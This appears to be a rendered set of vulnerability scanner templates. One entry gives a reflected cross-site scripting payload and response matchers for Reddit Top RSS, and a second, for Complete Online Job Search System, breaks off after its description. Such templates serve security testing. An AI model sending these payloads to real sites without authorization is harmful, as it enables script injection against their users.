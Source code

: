 
# Reddit Top RSS - Cross-Site Scripting

## Description

- Reddit Top RSS contains a cross-site scripting vulnerability via the /?subreddit=news&score= parameter.

- severity - high
- tags - reddit,rss,xss

## Requests

- Method - GET

### URL

- {{BaseURL}}/?subreddit=news&score=2134%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- part - body
- words
  1. value="2134">\<script>alert(document.domain)\</script>" min="0"

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Complete Online Job Search System 1.0 - Cross-Site Scripting

## Description

- Complete Online Job Search System 1.0 contains a cross-site scripting vulnerability via index.php?q=advancesearch.

- severity - high
- tags - cve,cve2022,xss,eris

## Requests
